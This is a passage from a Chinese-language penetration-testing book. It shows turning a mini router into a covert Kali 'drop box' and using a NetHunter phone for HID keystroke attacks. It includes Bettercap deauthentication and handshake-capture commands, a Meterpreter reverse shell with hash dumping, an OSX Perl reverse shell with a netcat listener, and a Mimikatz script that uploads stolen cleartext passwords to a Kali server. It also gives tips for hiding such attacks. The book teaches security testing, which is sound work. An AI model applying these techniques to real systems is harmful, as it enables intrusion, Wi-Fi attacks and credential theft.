在本章中，我们讨论了在 Raspberry Pi 400 上使用 Kali Linux。我们查看了几个在 Kali 和 RPi 上运行效果良好的 Wi-Fi 测试工具。最后，我们看到了几个“智能投放盒”的方案验证案例。我个人对 Pi 400 感到非常兴奋。我认为这种合合式设计和易用性将吸引许多新学生和技术爱好者关注树莓派。RPi 是安全领域的绝佳工具，既是低成本训练设备，也是测试平台。要了解更多关于在安全领域使用树莓派的知识，请查看我在 Amazon.com 上的书籍《使用树莓派进行安全测试》。## 资源与参考文献

> ➢  如何在 Kali Linux 中创建一个具有 sudo 权限的新普通用户 - [`esc.sh/blog/how-to-create-new-normal-user-with-sudo/`](https://esc.sh/blog/how-to-create-new-normal-user-with-sudo/)

## 第 45 章：将路由器转换为 Kali Linux 桌面


在最后一个章节中，我们将看一眼如何将一台 SeeedStudio OpenWrt 双千兆路由器转换为完整的 Kali Linux 桌面。由于有许多可以运行 Kali Linux 的不同设备，我想向你们展示一种稍有不同的方法。我们将介绍将路由器操作系统重写为 Kali Linux 的步骤。然后，我们将运行几次快速测试，以展示它作为安全测试平台的效果有多好。这包括使用扩展 WiFi 卡攻击 WiFi 网络。我们还将查看如何使用路由器和 RTL-SDR 卡实时追踪飞机。

### 快速概览


新的 SeeedStudio Mini Router 是一台运行 OpenWrt 的双千兆以太网路由器。Mini Router 配备了一个 4 安培通用电源适配器，带有多个电源插头适配器。如果你经常接触树莓派，你会发现这个适配器的功率比普通的树莓派电源大。PC/ABS 和铝合金外壳内置了散热片，有助于单元运行得更凉爽。它还可以安装在墙上或导轨上。外壳的大小大约一副扑克牌。

如果你开箱即用，你可以连接到它并将其作为普通的 OpenWrt 路由器使用：


使用 `OpenWrt`，你可以配置路由器工作在几种不同的模式下。例如，你可以用它设置 NAS 解决方案，连接打印机使其变为网络打印机，或将其作为 VPN 客户端或服务器。但这不是本章的主题，我们将其转换为 Kali Linux 桌面。所以，让我们快速看看路由器内部的电路板。

### 内部构造 - 窥视内部

外壳内部放置着一个树莓派。嗯，不只是任何树莓派，这是带有 4GB RAM 和 32GB eMMC 的计算模块 4 (`CM 4`)。它不仅仅是原装的 `CM 4`，SeeedStudio 的这个版本包含了双千兆以太网适配器！


带有标准的树莓派摄像头/显示连接选项，包括一个 micro-HDMI 接口。Wi-Fi (802.11b/g/n/ac）带有内置和外部天线选项、蓝牙 5.0 和 BLE。它还有两个双 USB 3.0 端口，以及一个额外的 USB 3.0 9 针插座，用于添加更多端口。我想说的是，该单元本质上是一个工业级电源树莓派 4！它有 USB、视频和网络端口——所以，让我们把它变成 Kali Linux 桌面吧！

### 安装 Kali Linux

SeeedStudio 网站上有一个视频涵盖了如何向 `CM 4` 内存卡安装不同的操作系统。指导说明还引用了另一个网站，该网站包含分步安装程序；两个链接都列在参考文献部分。因此，这只是对该过程的快速概述——请检查并遵循 SeeedStudio 网站的说明。

`CM 4` 和 `Pi 4` 的操作系统安装程序非常不同。你不能像普通树莓派那样只需将镜像写入 SD 卡就可以开始。你必须设置 `CM 4` 像 U 盘一样，然后使用 USB 线将其连接到另一台电脑，然后使用 Raspberry Pi Imaging 程序将镜像加载到内部内存卡中。

> 警告：从外壳中取出时可能会损坏主板，或者如果你没有将跳线连接到正确的端口——风险自自负

在开始之前，你需要在 `CM 4` 板板上设置一个跳线，将其设置为“可编程”USB 启动模式。要做到这一点，你需要访问电路板。非常小心地拆下 Mini Router 外壳上的螺丝，然后取出外壳。


接下来，你需要用跳线将电路板上的 `Boot` 和 `Ground (GND)` 引脚连接在一起。


现在，有了这些跳线的引脚，当你通过 USB 线将其连接到另一台电脑时，`CM 4` 将作为一个可移动的 USB 盘工作。

### 安装新操作系统

现在，`CM 4` 已配置为像可移动的 USB 盘，我们需要在主电脑上安装 USB 设备驱动程序。这台主电脑可以是你想要的任何设备，树莓派为所有主流操作系统提供驱动程序和软件。我已经有一个运行 `RasPi OS` 的 Pi 400 桌面，所以我使用了它。但你使用 Windows 或 Linux 系统。从另一台树莓派配置 `CM 4` 非常简单，你只需要安装 USB 驱动程序，然后使用 Raspberry Pi Imager 将操作系统加载到 `CM 4` 上。


再次，大部分步骤已经在 SeeedStudio 网站上涵盖了，因此这只是一个快速的演示。

首先，你需要在主系统中加载 `CM 4` USB 驱动，我的主系统是一台 `Pi 400`。

在终端中，我输入了：

```bash
sudo apt install libusb-1.0-0-dev
git clone --depth=1 https://github.com/raspberrypi/usbboot
cd usbboot/
make
```


现在 USB 驱动已经安装完成，我只需要运行 RPI boot 程序即可。

```bash
sudo ./rpiboot
```


当 `CM 4` 通过 USB 线缆连接到 `Pi 400`（主电脑）时，它会被识别为一个外部硬盘。现在我们只需要能够远程将 Kali Linux 加载到 `CM 4` 的内存卡上。我们可以使用官方的 Raspberry Pi Imager 工具来实现这一点。该程序允许你远程向 USB 驱动器写入任何兼容 RPi 的操作系统。

- 下载并解压适用于 RPI 4 的 Kali Linux 64 位镜像
- 安装 RPI Imager 程序，`sudo apt install rpi-imager`

运行 RPI-Imager，选择“Use custom”（自定义），并选择 Kali Linux 镜像。


最后，选择 `CM4` 内存卡作为目标驱动器并开始写入镜像。


搞定！写入完成后，你可以关闭所有设备，并移除 `CM 4` 板子上的跳线帽。将 `CM 4` 放回路由器外壳，连接外围设备，最后通电。


路由器将启动并进入 Kali Linux 桌面！

# 黑客攻击 - 使用路由器！

我们现在可以使用路由器作为安全测试箱。你可以直接配合键盘、鼠标和显示器将其作为桌面使用。它从本质上是一个完整的 Kali Linux 安装版，其运行和功能在任何其他平台上都一样。


很棒的是，树莓派版本的 Kali 默认启用了 `SSH`，因此你可以进行“无头”运行（无需键盘、视频、鼠标）。同样很棒的是它可以成为完美的渗透测试“后门设备”（drop box）——一种在安全测试期间留在目标站点的安全设备，以便稍后监控并连接到目标网络。它那无辜的“我是一个路由器”的外观使其更适合这一用途。

现在，让我们对它进行一些测试。让我们快速看看如何获取到 Windows Server 2019 系统的远程 shell。我使用了之前提到的 Go Shellcode 创建了一个 `.exe` 格式的反向 shell。这是一个目标机必须运行的文件。在现实世界中，它必须通过社会工程学或钓鱼活动来投递。但是，一旦服务器管理员运行了这个看起来非常无害的“MerryHackmas”的文件：


我们获得了远程 shell！


现在我们已经有了与 Windows Server 连接的 Metasploit Meterpreter shell。我们可以执行诸如导出服务器用户密码哈希值的操作。


它对 Windows 11 同样有效。


以及 Windows 11 的密码哈希：


未显示的是，它对最新的 Windows Server 2022 也同样有效。同样，管理员必须运行该文件才能实现这种攻击。但对于一个刚刚还是路由器来说，这仍然令人印象深刻。

# WiFi 攻击 - 使用路由器！


所有的 Kali 工具和命令运行效果与普通的 Kali 树莓派安装一样良好。一个小问题是板载无线网卡无法进入监听模式（monitor mode），因此无法直接用于 WiFi 扫描和攻击。不过，它对于远程 WiFi 访问运行良好。你可以添加一个 USB WiFi 无线适配器并用它进行监听模式。任何 Kali Linux 认证的 WiFi 适配器都能正常工作。我只是用了手头的一个可靠的老 TP-Link 722n (v1!) 卡。

Kali 上最新版本的 Bettercap 似乎在将网设置为设置为模式方面有些困难，但你可以手动完成。

在终端中，输入：

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan1
sudo bettercap -caplet https-ui
```

你现在可以通过网页浏览器远程访问 Bettercap。

- 访问“https://Kali_IP”

某些浏览器会拦截 Bettercap 的 TLS 证书。如果是这样，你需要进入浏览器安全设置，对 https 站点 (443) 和 API 站点 (8083) 允许 Bettercap 证书。


然后你就可以通过浏览器使用“user / pass”登录。你需要在配置文件中更改这些内容，请参考工具文档。


接下来，在 Bettercap 菜单栏上：

- 点击“WiFi”
- 选择监听接口 (`wlan1mon`)
- 然后点击播放按钮


Bettercap 将开始扫描区域内的任何 WiFi 网络。


然后我们可以点击想要攻击的 WiFi 路由器并点击“De-authenticate Client”（取消客户端认证）。路由器上的任何客户端都会被踢出并强制重新连接。当它们重新连接时，Bettercap 会捕获认证密钥（显示为红色钥匙），并将其存储在 `/root/bettercap-wifi-handshakes.pcap` 中供以后破解。


这只是你在 Bettercap 中可以做的一件事。你还可以通过“LAN”菜单按钮进行局域网扫描和网络中间人攻击（MitM attacks）。

# 扫描飞机 - 使用路由器！

你还可以在路由器上使用 RTL-SDR 设备。一种可能的用途是使用 Kismet 扫描飞机。所有飞机都会传输包含其 ID、位置和速度的 ADS-B 信号。我使用了 NESDR Smart USB RTL-SDR，这是一个范围极佳的适配器，特别是如果你购买了带有可扩展天线的套件。

- 连接你兼容的 USB RTL-SDR 适配器
- 打开终端并输入 `kismet`
- kismet 服务器将启动并提示你在浏览器中访问“Localhost:2501”

现在，在 Kismet 运行时，你需要添加一个数据源（Data Source）。确保你的 RTL-SDR 已连接并点击 Kismet 控制板左上角的三栏图标。

- 点击“Data Sources”
- 然后点击“Available Interface: rtladsb-xxxxxxxx”


- 最后，点击“Enable Source”

现在关闭“Data Source”窗口，你就能发现飞机了！


所有的飞机信息将显示在原始终端窗口和图形显示器上。


还有一个实时地图（你需要大幅缩小，然后手动放大到你所在的区域它才能生效）。


好了，就是这样——通过你那台小小的 2 口路由器进行实时飞机追踪。

## 总结

在本章中，我们看到了如何重写 SeeedStudio 微型路由器的内存卡，将其转换为 Kali Linux 桌面。树莓派是安全测试的绝佳平台，我已将其广泛用于该目的，并非常喜欢它。如果你想学习更多关于在树莓派上使用 Kali Linux 的知识——请查看我在 Amazon.com 上的书籍《Security Testing with Raspberry Pi》。

希望你喜欢阅读这本书，就像我喜欢写它一样！某些技术可能看起来有点复杂，但我发现很有帮助的方法是暂时离开，学习其他安全主题，然后回来再次查看。很多时候，我在这一过程中学到的东西有助于阐明新主题。

不要放弃，我花了多年才学到我现在的知识。你可以做到的！祝你的旅程一切顺利！

祝好！

Daniel Dieterle

## 参考文献

- SeeedStudio Mini Router - [`www.seeedstudio.com/Dual-GbE-Carrier-Board-with-4GB-RAM-32GB-eMMC-RPi-CM4-Case-p-5029.html`](https://www.seeedstudio.com/Dual-GbE-Carrier-Board-with-4GB-RAM-32GB-eMMC-RPi-CM4-Case-p-5029.html)
- “How to Flash Raspberry Pi OS Compute Module 4”, Jeff Geerling, 2020 年 11 月 3 日 - [`www.jeffgeerling.com/blog/2020/how-flash-raspberry-pi-os-compute-module-4-emmc-usbboot`](https://www.jeffgeerling.com/blog/2020/how-flash-raspberry-pi-os-compute-module-4-emmc-usbboot)


# 第 XII 部分 - Android 版 Kali - 奖励章节！

## Kali NetHunter 上的 DuckHunter

> 你不会认为自己可以不看一个关于 Android 版 Kali 的章节就逃脱了吧？我不这么认为！我实际上撰写了一整本关于在 Android 平台上运行 Kali Linux 的书——《使用 Kali NetHunter 进行安全测试》。我包含了原书中的这一章并进行了一些细微更新。希望你喜欢！

`Kali NetHunter` 是适用于基于 Android 设备的 Kali Linux 官方安装版。你可以把它想象成 Kali Linux 的便携式、终极隐身平台。我的意思是，现在谁出门不随身带着手机呢？`Kali Nethunter` 有几种格式：适用于未 root 设备的 `NetHunter Rootless`、适用于带有自定义恢复设备的 `NetHunter Lite`，以及适用于已 root 设备的常规 `NetHunter`。


特定的设备与已 root 的 `NetHunter` 兼容，请参阅工具网站获取完整信息 - [`www.kali.org/docs/nethunter/`](https://www.kali.org/docs/nethunter/)

## DuckHunter

`DuckHunter HID` 扩展了 `NetHunter` 执行人机接口设备（HID）攻击的能力。它实际上将 Hak5 的 `Rubber Ducky` USB 攻击支持引入了 `NetHunter` 平台。`Rubber Ducky` 是 Hak5 创建的基于 USB 的 HID 攻击工具。它使用 `Duck Toolkit` 脚本通过 USB 端口执行自动化 HID 攻击。通过 `DuckHunter`，你基本上可以在你的 `NetHunter` 设备上使用 `Duck Toolkit` 脚本。你只需要从 `Duck Toolkit` 网站下载脚本，经过一些微调，就可以像我们在上一章中做的那样执行它们。`DuckHunter` 还赋予了你创建自己的自定义脚本的能力。

### 运行 DuckHunter

> ➢ 在 `NetHunter` 菜单中点击“DuckHunter HID”


你有两个主要选项，“转换 (Convert)”或“预览 (Preview)”：

> ➢ `Convert` – 将脚本从 `DuckHunter` 转换为 `NetHunter`
> ➢ `Preview` – 显示你展示将执行的命令


在编写本文时，`Duck Toolkit` 提供的首页链接指向一个不存在的页面。正确的页面是：

> [`ducktoolkit.com/`](https://ducktoolkit.com/)

如下所示：


### 基础测试

`DuckHunter` 预加载了一个短的默认脚本，以便你可以看到它是如何工作的。让我们来看看这个基础脚本：

```
REM this is a comment
STRING Example of typing to computer.
Nethunter is awesome!
REM We can type commands also
SPACE
SPACE
ENTER
```

如果你通读该脚本，你会发现字符串“Example of typing to computer. Nethunter is awesome!”将与单独命令（两个空格和一个回车命令）一起发送。

要查看这在 Windows 目标机器上如何工作：

> ➢ 经 USB 端口将 `NetHunter` 手机连接到目标系统
> ➢ 在 Windows 系统上打开命令提示符
> ➢ 点击 `DuckHunter` 菜单右上角的播放按钮

你应该能看到类似这样的界面：


注意，与上一章不同，这里没有 UAC 绕过，也没有通过 Windows 菜单系统自动打开命令提示符。所有这些功能都必须输入脚本中。这个基础字符串示例仅如上所示发送单行文本。

如果你点击“预览 (Preview)”菜单标签页，你将看到发送到目标系统的精确命令。注意字符串是使用“echo”命令一次一个按键发送的。记住，我们正在模拟键盘：


让我们来看一些更高级的示例。

### 示例预设

`DuckHunter` 包含了几个示例脚本：

> ➢ 在“转换 (Convert)”菜单标签页下，有一个“示例预设 (Example Presets)”下拉列表
> ➢ 从列表中选择“Hello World” 
> ➢ 读取脚本以了解它的作用
> ➢ 点击“预览 (Preview)”，查看将发送哪些代码
> ➢ 接下来，点击播放按钮执行攻击

如下所示：


注意脚本中的 `SLEEP 5000` 命令让它在继续之前暂停了 5 秒。这在输入某些需要时间延迟的命令时很有帮助。

### 示例 OSX 反向 Shell

最后两个预设是基于 OSX 的反向 Shell。让我们简单看看基于 Perl 的那一个。

> ➢ 从下拉菜单中选择“OSX Perl Reverse Shell”

通读脚本以理解它将要做什么。执行时，它会打开一个终端窗口，暂停，然后通过 Perl 向我们指定的服务器创建远程连接。让我们编辑脚本，填入我们的 Kali 虚拟机的 IP 地址。这将导致 Mac 系统连接到我们独立的 Kali 系统（理论上它可以位于任何地方），并创建一个远程 shell，只需将我们的 `NetHunter` 手机连接到 Mac 的 USB 端口并执行攻击即可。

> ➢ 在包含 `IO::Socket::INET(PeerAddr,”0.0.0.0:1337”)` 的行上
> ➢ 将 `0.0.0.0` 改为我们的 Kali Linux 虚拟机地址（`192.168.1.39`）
> ➢ 你可以保留默认的 `1337` 端口设置

如下所示：


如果你点击“预览 (Preview)”标签页并向下滚动，你可以看到 Kali 地址将逐个数字发送到目标系统：


我们需要在 Kali 虚拟机上创建一个监听器。它将等待并监听 Mac 的连接。我们将使用 `Netcat` 实现这一点。

在 Kali 虚拟机上：

> ➢ 打开终端
> ➢ 输入 `nc -l -p 1337` 启动 `Netcat` 监听器

在 NetHunter 设备上：

现在在 `NetHunter` 中执行攻击：

> ➢ 通过 USB 将 `NetHunter` 设备连接到 Mac 系统
> ➢ 点击“播放”按钮

打开一个终端窗口并执行了 Perl 脚本：


在 Kali 虚拟机上，似乎什么都没有发生。远程 shell 在没有通知的情况下被创建了。在 Kali 终端提示符中输入命令，你会看到 OSX 系统的响应，如下：


你可以看到这是使用 `DuckHunter` 获取远程 shell 的非常快速简单的方法。我们已经了了简单字符串和使用预安装脚本。接下来，我们将查看来自 `Duck Toolkit` 网页的脚本。

### 使用 Duck Toolkit 脚本

`Duck Toolkit` 网站 ([`ducktoolkit.com/`](https://ducktoolkit.com/)) 为 Hak5 Rubber Ducky 提供负载生成器。使用该生成器，你可以创建许多适用于 Windows 的脚本。有一些 Linux 脚本，网站称 OSX 脚本很快。


我尝试的所有脚本都需要某种微调才能工作，由于这超出了本书的范围，我将仅简要介绍如何获取脚本。如果你想冒险，可以花时间处理这些脚本，但我把微调留给你。


以下是使用 Duck Toolkit 负载生成器的基础指令：

> ➢ 访问“[`ducktoolkit.com/`](https://ducktoolkit.com/)”
> ➢ 点击“创建负载 (Create Payload)”
> ➢ 选择“Microsoft Windows 7/8/10”

你将看到多个识别 (Recon)、利用 (Exploit) 和报告 (Reporting) 脚本。根据你选择的脚本，可能需要从其他脚本中选择选项。例如，大多数基于信息的攻击脚本都需要报告脚本。

> ➢ 选择你想要的脚本
> ➢ 为脚本设置任何变量，包括用户和全局变量
> ➢ 完成后，点击“生成脚本 (Generate Script)”
> ➢ 点击 `duckcode.txt` 下载生成的 Ducky 脚本文件

如果你预览脚本，你会发现命令看起来很熟悉：


然后你可以复制并粘贴，或将新脚本加载到 `DuckHunter` 中。正如之前提到的，你必须审查并编辑代码以便在你的目标系统上完全运行，因为仅仅运行下载的脚本可能会产生未知或意外的结果。

## 更多高级的话题


我们刚刚接触了 `DuckHunter` 的基本操作。虽然这超出了本书的范围，但我想花一点时间简要讨论一下隐身技术。然后，我们将看看如何使用 `DuckHunter` 从 Windows 7 系统中恢复密码。

## DuckHunter - 隐身问题

我们已经涵盖了几个 `HID` 攻击有效性的示例。我们还没有讨论的是如何提高隐蔽性。你可能注意到，大多数示例攻击会在目标上打开一个巨大的终端窗口，并在完成后仍保持开启状态。这在测试环境中效果很好，但在真实环境中会引起注意。因此，在真实的渗透测试中，你可能需要修改脚本，使其对旁观者不那么明显。

我将此留给读者作为一项练习来探索。但一些你可以尝试的技术包括：

> ➢ 运行运行时最小化或收缩窗口
> ➢ 更改字体和文本颜色
> ➢ 完成后关闭任何打开的命令窗口

在接下来的讨论的密码攻击中，可以看到对命令提示符混淆的尝试。

## DuckHunter & Mimikatz 获取密码

Hak5 创建了一个脚本，允许你结合 `Mimikatz` 和他们的 `USB Rubber Ducky`，根据热门剧集《机器人》中的场景来窃取 Windows 密码。该脚本使用 `Mimikatz` 从目标中恢复明文密码，然后将其上传到 Kali 系统进行查看。关于如何创建该脚本的逐步指导可以在 Hak5 网站上找到：

[15 秒破解密码 - 机器人风格](https://www.hak5.org/blog/15-second-password-hack-mr-robot-style)(https://www.hak5.org/blog/15-second-password-hack-mr-robot-style)

以及 YouTube 视频：

[`www.youtube.com/watch?v=4kX90HzA0FM`](https://www.youtube.com/watch?v=4kX90HzA0FM)

作为一个读者挑战，看看你是否能在你的 `DuckHunter` 和 Kali Linux 系统上运行它。只需按照 Hak5 网页上的说明操作即可。编写的攻击在 Windows 7 上有效，但不适用于 Windows 10。目标系统还必须以管理员账户身份登录。最后，你可以跳过“步骤 2：编码负载”，因为你不需要为 `DuckHunter` 生成 `.bin` 文件。

### 额外帮助

> ➢ 基本上，你将需要将 Invoke-Mimikatz` PowerShell 文件和 `rx.php` 复制存储到你的 Kali Linux Web 服务器目录。该目录需要具有写权限，以便在凭据上传时存储它们。

> ➢ 如如下截图所示，将 Rubber Ducky 脚本复制到 `DuckHunter`。执行此操作时要小心，因为脚本末尾会修改注册表，请使用独立的 Windows 7 目标进行测试以防万一。或者在确定它能按预期运行之前，不要包含注册表修改部分。

> ➢ “保存到 SDCARD”和“从 SDCARD 加载”选项非常有用。这些选项在 Nexus 5x 上似乎存在问题，但在与一位 NetHunter 的开发人员交流后，安装“ES File Explorer”似乎解决了问题。


一切就绪后，将 NetHunter 设备插入目标系统并执行攻击。几秒钟后，你应该会看到你的 Kali Web 服务器上弹出一个新文件：


查看文件以获取登录凭据。查看下方显示的修改后的文件：


我们成功地从 Windows 系统获取了用户及其明文密码。

## 结论

在本章中，我们涵盖了使用 `DuckHunter` HID 攻击将 NetHunter 手机变成类似 Hak5 Rubber Ducky 设备的方法。诚然，USB Rubber Ducky 在实际渗透测试中可能更有效，因为它看起来像标准的 USB 闪盘，但希望我们看到了 `DuckHunter` 也可以是一个有效的工具。技巧在于通过社会工程让目标允许你将手机连接到他们的系统。谁知道呢，也许“我能把手机插在你的电脑上充电吗？”真的有效。

## 资源与参考文献

> ➢ DuckHunter 主网站：[`ducktoolkit.com/`](https://ducktoolkit.com/)
> ➢ DuckHunter GitHub 网站：[`github.com/hak5darren/USB-Rubber-Ducky`](https://github.com/hak5darren/USB-Rubber-Ducky)
> ➢ DuckHunter 脚本转换器：[`github.com/byt3bl33d3r/duckhunter`](https://github.com/byt3bl33d3r/duckhunter)
> ➢ Hak5，“15 秒破解密码，机器人风格”：[`www.hak5.org/blog/15-second-password-hack-mr-robot-style`](https://www.hak5.org/blog/15-second-password-hack-mr-robot-style)
> ➢ 15 秒破解密码，机器人风格 - Hak5 2101：[`www.youtube.com/watch?v=4kX90HzA0FM`](https://www.youtube.com/watch?v=4kX90HzA0FM)

关于使用 Kali NetHunter 的更多信息，包括许多分步骤的实操教程，请参阅我的书籍《Security Testing with Kali NetHunter》。该书可在 Amazon.com 购买。

